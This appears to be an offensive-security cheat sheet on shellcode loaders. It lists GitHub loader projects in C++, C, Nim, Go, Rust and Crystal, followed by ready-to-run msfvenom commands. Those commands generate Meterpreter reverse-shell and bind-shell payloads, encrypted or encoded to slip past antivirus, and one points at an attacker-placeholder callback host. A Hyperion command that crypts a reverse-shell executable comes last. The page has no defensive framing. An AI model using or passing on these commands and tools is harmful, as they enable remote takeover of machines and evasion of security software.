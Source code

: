 ### C++

- <https://github.com/TheD1rkMtr/D1rkLrd>
- <https://github.com/xuanxuan0/DripLoader>
- <https://github.com/Hagrid29/PELoader>
- <https://github.com/icyguider/Shhhloader>

### C

- <https://github.com/cribdragg3r/Alaris>
- <https://github.com/trustedsec/COFFLoader>

### Nim

- <https://github.com/aeverj/NimShellCodeLoader>
- <https://github.com/sh3d0ww01f/nim_shellloader>

### Go

- <https://github.com/EddieIvan01/gld>
- <https://github.com/zha0gongz1/DesertFox>

### Rust

- <https://github.com/b1tg/rs_shellcode>
- <https://github.com/r4ime/shellcode_loader>
- <https://github.com/cr7pt0pl4gu3/Pestilence>

### Crystal

- <https://github.com/js-on/WeaponizeCrystal/blob/main/shellcode_loader/shellcode_loader.cr>

## Generate shellcode

### msfvenom

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f raw`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f dll`
- `msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more`

### C2 (Cobalt/Havoc what ever)

### ASM

- <https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/>

### Hyperion

- `wine hyperion.exe /root/payloads/shellter/shellter_putty_reverse_x86.exe`
